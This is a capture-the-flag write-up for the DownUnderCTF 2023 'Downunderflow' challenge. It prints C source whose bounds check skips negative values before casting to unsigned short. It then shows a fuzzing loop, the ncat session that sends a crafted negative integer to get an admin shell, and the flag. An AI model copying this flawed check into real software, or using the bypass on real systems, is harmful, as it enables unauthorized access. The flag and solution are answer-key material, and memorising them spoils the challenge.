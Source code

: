 ```yaml
---
title: DownUnderCTF 2023 - Downunderflow
date: Sun Sep  3 01:27:38 PM +04 2023
categories: [Writeup]
tags: [ctf,downunderctf,downunderctf2023,misc]
---
```


## Description

It's important to see things from different perspectives.

Author: joseph

Application: `nc 2023.ductf.dev 30025`<br>
Downloads: [downunderflow.c](https://play.duc.tf/files/dd8d9bf03ed898af1bd04ff369d4470e/downunderflow.c?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjo5MX0.ZPRHFQ.Asj2x7TBzZsfWJHMZYCISPuAx48),  [downunderflow](https://play.duc.tf/files/dc63aecad029210d62bd1f40cbf5c65f/downunderflow?token=eyJ1c2VyX2lkIjoyNDI4LCJ0ZWFtX2lkIjoxMjc1LCJmaWxlX2lkIjo5Mn0.ZPRHFQ.1VvS1nIt-JKpzj6qBEnxko2bfZM)

##  Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define USERNAME_LEN 6
#define NUM_USERS 8
char logins[NUM_USERS][USERNAME_LEN] = { 
	"user0", "user1", "user2", "user3", 
	"user4", "user5", "user6", "admin" 
};

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

int read_int_lower_than(int bound) {
    int x;
    scanf("%d", &x);
    if(x >= bound) {
        puts("Invalid input!");
        exit(1);
    }
    return x;
}

int main() {
    init();

    printf("Select user to log in as: ");
    unsigned short idx = read_int_lower_than(NUM_USERS - 1);
    printf("Logging in as %s\n", logins[idx]);
    if(strncmp(logins[idx], "admin", 5) == 0) {
        puts("Welcome admin.");
        system("/bin/sh");
    } else {
        system("/bin/date");
    }
}
```

Application is simple, if you are admin you get shell, if you are use you  get date. Problem is to be admin we need to get `logins[7]`, which `read_int_lower_than` makes it impossible for us.

The problem in validation is, it only checks positive values `if(x >= bound)` [Line 17].

C is a statically types language and it's primitive types have a defined limits. 

```c
// Online C compiler to run C program online
// https://www.programiz.com/c-programming/online-compiler/ 
#include <stdio.h>
#include <limits.h>

int main() {
    printf("int max: %d\nint min: %d", INT_MAX, INT_MIN);
    return 0;
}
// -------- Output ----------
> int max:  2147483647
> int min: -2147483648
```

_An integer overflow occurs when you attempt to store inside an integer variable a value that is larger than the maximum value the variable can hold._

In this case `int` is converted to `unsigned short` which will cause an overflow.
 
```c
unsigned short idx = read_int_lower_than(NUM_USERS - 1);
```

Doing a bit of fuzzing:

```bash
for i in {1..8}; do 
    overflow=$(( -2147483648 + $i ))
    echo "$i: $overflow"; echo $overflow | ./downunderflow | grep Logging -a; 
done;

# -------- Output ----------
1: -2147483647
Select user to log in as: Logging in as user1
2: -2147483646
Select user to log in as: Logging in as user2
3: -2147483645
Select user to log in as: Logging in as user3
4: -2147483644
Select user to log in as: Logging in as user4
5: -2147483643
Select user to log in as: Logging in as user5
6: -2147483642
Select user to log in as: Logging in as user6
7: -2147483641
Select user to log in as: Logging in as admin
8: -2147483640
Select user to log in as: Logging in as ��ԃN
```

## Solution 

```powershell
➜ ncat 2023.ductf.dev 30025
Select user to log in as: -2147483641
Logging in as admin
Welcome admin.
ls -lh
total 24K
-rw-r--r-- 1 65534 65534  31 Aug 31 02:12 flag.txt
-rwxr-xr-x 1 65534 65534 17K Aug 31 02:12 pwn
cat flag.txt
DUCTF{-65529_==_7_(mod_65536)}
```

> Flag: DUCTF{-65529_==_7_(mod_65536)}
{: .prompt-tip }